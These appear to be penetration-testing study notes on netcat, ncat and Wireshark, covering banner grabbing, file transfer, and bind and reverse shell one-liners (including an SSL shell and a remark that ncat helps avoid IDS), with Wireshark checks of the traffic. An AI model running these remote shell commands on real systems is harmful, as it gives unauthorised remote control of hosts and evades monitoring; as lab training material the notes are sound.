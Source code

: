 # Essential Tools
## Netcat
### Banner Grabbing
#### Connect to port to interact with services
`nc -nv $IP $PORT`

* Check banner for application and version

#### Netcat chat

On listening host:`nc -nlvp $PORT`

On connecting host:`nc -nv $IP $PORT`

Type some words, you will see it on listening host
* sent in plaintext

#### Transfer text/binary files
On listening host:`nc -nlvp $PORT > incoming.exe`

On connecting host:`nc -nv $IP $PORT < /PATH/TO/FILE`

* No feedback about file upload process
* To test, check file is working/complete

### Executing Remote Commands/Output redirection
#### Bind shell
* $Bob - Windows
* $Alice - Kali

Bob: `nc -lvp 4444 -e cmd.exe`
* presents command prompt to whoever connects

Alice: `nc -vn $BOB 4444`
* connects to Bob

#### Reverse shell
* Needs Bob to connect to Alice

Bob:`nc -lvp 4444`

Alice: `nc -vn $BOB_IP 4444 -e /bin/bash`
* Bob can type linux commands and get Output

## Ncat
* Netcat lacks both encryption and access limitations
* using Ncat helps avoid IDS
* modern day rewrite of Netcat

### Set up SSL bind shell

Bob: `ncat -lvp 4444 -e cmd.exe --allow $ALICE_IP --ssl`

Alice: `ncat -v $BOB_IP 4444 --ssl`
* should have a secure bind shell

To verify one, can use wireshark

## wireshark
### Checking for unencrypted bind shell

1. Choose interface
2. Set up filter that only captures port 4444
  * host $BOB_IP and tcp port 4444
3. Set up bind shell while Wireshark runs in background
4. Stop capture
5. "Follow TCP Stream"

You should be able to see the connection and various commands performed

### Checking for encrypted ncat ssl shell
1. Same setup as above

You should see the traffic is encrypted
